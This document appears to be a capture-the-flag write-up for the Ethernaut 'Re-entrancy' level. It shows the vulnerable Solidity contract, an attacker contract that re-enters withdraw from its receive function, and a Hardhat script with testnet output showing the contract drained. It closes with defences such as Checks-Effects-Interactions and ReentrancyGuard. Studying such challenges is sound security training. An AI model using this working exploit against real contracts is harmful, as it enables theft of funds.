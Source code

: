 ```yaml
---
title: Ethernaut \#10 Re-entrancy
tags: [ethernaut]
style: border
color: primary
description: Ethernaut Re-entrancy challenge writeup
---
```


## Re-entrancy

### Challenge

The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

* Untrusted contracts can execute code where you least expect it.
* Fallback methods
* Throw/revert bubbling
* Sometimes the best way to attack a contract is with another contract.
* See the Help page above, section "Beyond the console"


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

### Background

This is a classic re-entrancy attack as the title suggests. A re-entrancy attack is when the victim contact calls into an attacker controlled contract in some way, and the attacker controlled contract calls some functionality in the victim contract before the first function call is finished. This can have some devestating implecation if the contract assumes that the entire function call has finished. For example, if a withdraw function is called all checks passed and before the new amount is updated the function gives execution to the attacker controled contract, the attacker can re-enter the same function before the total was subrated and receive the funds again.  

### Attack

Create a contract that when receiving funds calls the `withdraw` function again until all funds are withdrawn. Then make sure to stop to avoid reverting. The contract should also have the functionality to call the `withdraw` function

* Create a contract that can:
  * Call the `withdraw` function
  * When receiving funds call `withdraw` again util the target is out of funds
* Transfer all funds to the attacker controlled contract using the `donate` function
* Call the `withdraw` functionality through the attacker controlled contract


#### ReentranceSolve.sol

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.4;

import '../challenges/Reentrance.sol';

contract ReentranceSolve {

    Reentrance reentranceContract;
    uint256 amount;
    uint256 times;
    uint256 counter;

    constructor(address payable _reentranceAddress, uint256 _amount) public {
        reentranceContract = Reentrance(_reentranceAddress);
        amount = _amount;
        times = 0;
        counter = 0;
    }
    
    function withdraw (uint256 _times) public {
        times = _times;
        // _king.call.value(msg.value)("");
        // _king.call{value: msg.value}("");
        reentranceContract.withdraw(amount);
    }

    receive() external payable {
        counter++;
        if (counter < times)
            reentranceContract.withdraw(amount);
    }
}
```

#### reentrance-solve.js

```javascript
const hre = require("hardhat");
const { ethers, upgrades } = require("hardhat");

async function main() {
    reentranceAddress = "0x143E03bB8B5e89ec5A7f38B2F52296378723e27C";
    contract = await ethers.getContractAt("Reentrance", reentranceAddress);
    
    const accounts = await hre.ethers.getSigners();
    account = accounts[0];

    contractBalance = await ethers.provider.getBalance(contract.address)

    console.log("Initial Contract Balance: " + contractBalance)
    
    ReentranceSolve = await ethers.getContractFactory("ReentranceSolve");
    reentranceSolve = await ReentranceSolve.deploy(contract.address, contractBalance);
    await reentranceSolve.deployed();

    // donate funds for attacker contract
    tx = await contract.donate(reentranceSolve.address, {value: contractBalance})
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)

    // transfer token funds
    tx = await reentranceSolve.connect(account).withdraw(2)
    receipt = await tx.wait()

    contractBalance = await ethers.provider.getBalance(contract.address)
    reentranceSolveBalance = await ethers.provider.getBalance(reentranceSolve.address)
    reentranceSolveTokenBalance = await contract.balanceOf(reentranceSolve.address)
    console.log("Contract Balance      : " + contractBalance)
    console.log("Attacker Balance      : " + reentranceSolveBalance)
    console.log("Attacker Token Balance: " + reentranceSolveTokenBalance)
    
}

main().catch((error) => {
    console.error(error);
    process.exitCode = 1;
});
```

```bash
$ npx hardhat run scripts/reentrance-solve.js --network rinkeby
Initial Contract Balance: 1000000000000000
Contract Balance      : 2000000000000000
Attacker Balance      : 0
Attacker Token Balance: 1000000000000000
Contract Balance      : 0
Attacker Balance      : 2000000000000000
Attacker Token Balance: 115792089237316195423570985008687907853269984665640564039457583007913129639936
```

#### Alternative solution

If our funds were much less that the contract funds we might run in an out of gas error because the times we reenter might a lot. This might require that we run this attack in multiple steps. An alternative would be to run it twice so that our balance wraps to an huge number and then run once more and extract the full contract balance. 

### Success Message

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and re-enter your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 
#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
